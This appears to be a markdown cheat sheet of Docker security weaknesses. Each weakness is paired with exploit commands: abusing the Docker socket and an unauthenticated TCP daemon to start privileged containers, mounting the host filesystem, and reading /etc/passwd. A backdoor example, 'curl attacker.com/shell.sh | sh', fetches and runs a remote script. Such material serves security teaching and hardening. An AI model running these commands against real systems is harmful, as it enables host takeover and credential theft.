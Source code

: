 
###   Exposed Docker API (`/var/run/docker.sock`)

#### ➤ **Vulnerability**:

The Docker socket (`/var/run/docker.sock`) gives root-level control over Docker. If it's exposed over a network or mounted into a container, an attacker can control Docker as **root**.

#### ➤ **Exploit**:

```bash
curl --unix-socket /var/run/docker.sock http://localhost/containers/json
```

Or spawn a new root container:

```bash
curl --unix-socket /var/run/docker.sock -X POST \
  -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["sh"],"HostConfig":{"Privileged":true}}' \
  http://localhost/containers/create
```

---

###   Privileged Containers

#### ➤ **Vulnerability**:

Running a container with `--privileged` grants **almost full access to the host** (devices, kernel modules, etc.).

#### ➤ **Exploit**:

Inside a privileged container:

```bash
# Access host devices
ls /dev

# Mount the host filesystem
mkdir /mnt/host
mount /dev/sda1 /mnt/host
```

---

###  Insecure Volume Mounts

#### ➤ **Vulnerability**:

Sensitive host directories (like `/etc`, `/root`, or `/home`) mounted into a container can be accessed or modified.

#### ➤ **Exploit**:

```bash
docker run -v /etc:/mnt --rm -it alpine sh
cat /mnt/passwd
```

This allows reading system files or stealing credentials.

---

### Container Escape via Kernel Exploits

#### ➤ **Vulnerability**:

Containers share the host kernel. If an unpatched kernel exploit exists, a process inside a container can break out.

#### ➤ **Exploit Example**: DirtyPipe (CVE-2022-0847)

Used to write arbitrary data into read-only files like `/etc/passwd`.

Inside vulnerable container:

```bash
# Compile and run DirtyPipe exploit to modify /etc/passwd and create root user
```

---

###  Exposed Docker Daemon over TCP

#### ➤ **Vulnerability**:

If Docker is running with `-H tcp://0.0.0.0:2375` without TLS, it's fully exposed and unauthenticated.

#### ➤ **Exploit**:

```bash
# Connect and control remotely
docker -H tcp://target-ip:2375 ps
docker -H tcp://target-ip:2375 run -it alpine sh
```

This grants **remote root access** to the Docker host.

---

###  Image Poisoning / Malicious Images

#### ➤ **Vulnerability**:

Pulling images from untrusted sources may include malware or backdoors.

#### ➤ **Exploit**:

- Backdoor in Dockerfile (e.g., `curl attacker.com/shell.sh | sh`)
    
- Trojanized binaries in the image
    

**Defence**: Use verified sources or scan with `dockle`, `trivy`, or `docker scan`.

---

###  Unsafe Capabilities

#### ➤ **Vulnerability**:

By default, Docker grants capabilities that can be dangerous if misused.

#### ➤ **Exploit**:

Use `--cap-add=SYS_ADMIN` or similar to gain dangerous privileges:

```bash
docker run --cap-add=SYS_ADMIN -it ubuntu bash
```

This can allow mounting, pivoting, and potentially escaping.